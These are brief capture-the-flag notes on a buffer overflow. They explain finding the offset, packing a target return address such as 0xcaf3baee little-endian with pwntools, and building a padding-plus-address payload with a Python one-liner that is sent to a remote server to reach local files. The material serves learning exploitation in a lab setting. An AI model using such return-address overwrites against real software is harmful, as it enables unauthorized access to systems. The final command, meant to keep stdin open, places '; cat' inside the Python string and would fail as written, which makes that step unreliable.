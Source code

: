### N o T e S

---

firstly, find out the offset before which the program will not print flag. Then concatenate it with the address we want.

For example, in a question if offset is 20 and we need to return the address 0xcaf3baee, then 

```bash
>>> import pwn
>>> pwn.p32(0xcaf3baee)
b'\xee\xba\xf3\xca'

# --> Little endian notation.
```

Payload --> python -c 'print("A"*20+"\xee\xba\xf3\xca")' > payload

```py
print("A"*20+"\xee\xba\xf3\xca")
AAAAAAAAAAAAAAAAAAAAîºóÊ
```

When we run this payload with the remote server, we can get access to the local files.

#### In case the stdout closes using payload try this : 

```py
python -c 'print("A"*20+"\xee\xba\xf3\xca" ; cat)'
```



---

